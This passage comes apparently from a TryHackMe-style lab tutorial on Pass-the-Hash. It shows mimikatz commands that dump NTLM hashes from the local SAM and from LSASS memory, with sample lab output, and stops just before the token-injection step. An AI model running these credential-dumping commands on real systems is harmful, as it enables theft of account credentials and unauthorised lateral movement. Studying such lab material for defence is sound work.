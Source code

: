 Although it may seem we can't really use those hashes, theÂ NTLMÂ challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crackÂ NTLMÂ hashes, if the Windows domain is configured to useÂ NTLMÂ authentication, we canÂ **Pass-the-Hash**Â (PtH) and authenticate successfully.

To extractÂ NTLMÂ hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.

### **ExtractingÂ NTLMÂ hashes from local SAM:**

This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

THMJMP2:Powershell

```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

### **ExtractingÂ NTLMÂ hashes from LSASS memory:**

This method will let you extract anyÂ NTLMÂ hashes for local users and any domain user that has recently logged onto the machine.

THMJMP2:Powershell

```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
